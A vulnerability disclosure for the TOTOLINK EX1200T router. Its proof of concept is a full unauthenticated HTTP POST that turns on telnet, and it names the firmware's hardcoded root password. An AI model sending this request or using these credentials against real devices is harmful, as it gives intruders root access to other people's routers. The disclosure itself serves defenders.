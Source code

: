 # TOTOLINK EX1200T TELNET

## Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

The attacker can start telnet without authorization, the default username and password exists in the firmware.

![image-20211021175729211](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211021175729211.png)

## PoC

Telnet is enabled by sending the following POST packet .

```
POST /cgi-bin/cstecgi.cgi?action=1 HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setTelnetCfg"，"telnet_enabled":"1"}
```

The default account password exists in the file `product.ini`：root:cs2012

![image-20211021175704482](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211021175704482.png)



![image-20211021175519172](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211021175519172.png)

